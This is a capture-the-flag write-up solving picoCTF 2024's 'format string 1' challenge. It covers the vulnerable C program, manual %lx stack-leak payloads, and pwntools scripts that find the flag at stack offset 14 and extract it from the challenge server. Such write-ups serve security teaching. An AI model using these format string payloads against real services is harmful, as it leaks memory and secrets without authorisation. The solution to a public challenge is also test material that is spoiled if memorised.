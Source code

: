 # format string 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: SYREAL

Description:
Patrick and Sponge Bob were really happy with those orders you made for them, but now 
they're curious about the secret menu. Find it, and along the way, maybe you'll find 
something else of interest!

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 62057
 
Hints:
1. https://lettieri.iet.unipi.it/hacking/format-strings.pdf
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/434](https://play.picoctf.org/practice/challenge/434)

## Solution

### Analyse the C file

We start by analysing the C source code.
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
The program will:
- Open and read the `secret-menu-item-1.txt` file (64 bytes) into memory
- Open and read the `flag.txt` file (64 bytes) into memory
- Open and read the `secret-menu-item-2.txt` file (64 bytes) into memory
- Ask as for our order and read our answer (1024 characters) with `scanf` 
- Print the order with a `printf` statement WITHOUT any format specifier(s)

We can read data from the stack, for example 64-bit integers shown in hex-format with the `%lx` format specifier or we can read and print the N:th integer with the form `%N$lx`. This can be done manually or semi-automated.

### Get the flag offset

The offset can be found manually by inputting a long string of items of the form `<offset>:%lx<delimiter>`.  
Here I have used dots (`.`) as delimiter.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ./format-string-1                                
Give me your order and I'll read it back to you:
1:%lx.2:%lx.3:%lx.4:%lx.5:%lx.6:%lx.7:%lx.8:%lx.9:%lx.10:%lx.11:%lx.12:%lx.13:%lx.14:%lx.15:%lx.16:%lx.17:%lx.18:%lx.19:%lx.20:%lx.
Here's your order: 1:7ffd81524750.2:0.3:0.4:a.5:400.6:6d20746572636553.7:6d65746920756e65.8:a322320.9:7f6580102ab0.10:7ffd00000000.11:7ffd81524978.12:0.13:7ffd81524980.14:7b4654436f636970.15:616c665f656b6166.16:a7d67.17:0.18:0.19:7f65800f8817.20:7f6580103648.
Bye!
```
Offset 14 looks promising and is indeed the ASCII-version of the start of the flag (in reverse order due to endianness).
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ echo '7b4654436f636970' | xxd -r -p | rev
picoCTF{  
```

We can also write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to find the offset for us
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
FLAG_START = 'picoCTF{'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

for i in range(1, 25):
    io = remote(SERVER, PORT)
    log.info(f"Trying offset {i}\n")
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        # Little endian case
        res_le = p64(int(out, 16), endianness="little").decode()
        if (res_le == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with little endian at offset {i}")
        # Big endian case
        res_be = p64(int(out, 16), endianness="big").decode()
        if (res_be == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

We run the script to get the offset
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/find_offset.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
Found start of flag (picoCTF{) with little endian at offset 14  
```
Pwntools complains about my f-string that isn't bytes, but otherwise it works beautifully.  
We confirm that the flag starts at offset 14.

### Get the flag

Now that we know at which offset the flag start we can modify the script to extract the entire flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
offset = 14

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

flag = b''
keep_going = True
while keep_going:
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        res_le = p64(int(out, 16), endianness="little")
        flag += res_le
        if (b'}' in res_le):
            keep_going = False
    except Exception:
        pass
    io.recvall()
    io.close()
    offset += 1

print(flag)
```

Finally, run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/get_flag.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
b'picoCTF{<REDACTED>}\x00'
```

For additional information, please see the references below.

## References

- [Format Strings](https://lettieri.iet.unipi.it/hacking/format-strings.pdf)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [rev - Linux manual page](https://man7.org/linux/man-pages/man1/rev.1.html)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
- [Wikipedia - ASCII](https://en.wikipedia.org/wiki/ASCII)
- [Wikipedia - Endianness](https://en.wikipedia.org/wiki/Endianness)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
